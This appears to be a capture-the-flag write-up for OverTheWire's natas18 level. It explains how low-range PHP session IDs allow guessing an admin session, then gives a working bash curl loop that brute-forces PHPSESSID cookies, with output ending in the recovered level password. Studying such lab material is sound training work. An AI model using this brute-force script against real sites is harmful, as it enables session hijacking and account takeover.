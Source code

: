 ```text
What does createID do ?
    Generate a random interger between 1 and the maxid (which is 640)

what does session_id do ?
    session_id() is used to get or set the session id for the current session.
    If id is specified, it will replace the current session id. session_id() needs to be called before session_start() for that purpose.

What does session_start do ?
    session_start() creates a session or resumes the current one based on a session identifier passed via a GET or POST request, or passed via a cookie.


So how can we break this ?
    my_session_start checks if there is a valid PHPSESSID, it will then start the session with that id.
    If there is currently a PHPSESSID for a admin session, and we correctly guess this, we could get a admin session. This way we entirely skip the $_SESSION["admin"] = isValidAdminLogin() since this will only be checked/set if my_session_start returns false or if it exists.
    Since the maxid is been set to 640 this should be brute forceable.
```

Doing the breakiage.

```bash
MaxCookieID=640
CurrentID=0
while [ $CurrentID -ne $MaxCookieID ]
do
    CurrentID=$(( $CurrentID + 1 ))
    SessionCookie="PHPSESSID=$CurrentID"
    curl_output=$(curl -s $'http://natas18.natas.labs.overthewire.org/' -H 'Authorization: Basic bmF0YXMxODp4dktJcURqeTRPUHY3d0NSZ0RsbWowcEZzQ3NEamhkUA==' --cookie "$SessionCookie" --data 'username=admin&password=password')
    if echo $curl_output | grep -q "regular user"; then
        echo "[-] $CurrentID out of $MaxCookieID is not a admin session."
    else
        echo "[+] $CurrentID out of $MaxCookieID is a admin session."
        echo "[+] $(echo $curl_output | grep Password | cut -d "<" -f 1 )"
        break
    fi
done
```

```bash
[-] 1 out of 640 is not a admin session.
[-] 2 out of 640 is not a admin session.
[-] 3 out of 640 is not a admin session.
[-] 4 out of 640 is not a admin session.
[-] 5 out of 640 is not a admin session.
[-] 6 out of 640 is not a admin session.
[-] 7 out of 640 is not a admin session.
[-] 8 out of 640 is not a admin session.
[-] 9 out of 640 is not a admin session.
...
[-] 115 out of 640 is not a admin session.
[-] 116 out of 640 is not a admin session.
[-] 117 out of 640 is not a admin session.
[-] 118 out of 640 is not a admin session.
[+] 119 out of 640 is a admin session.
[+] Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs
```

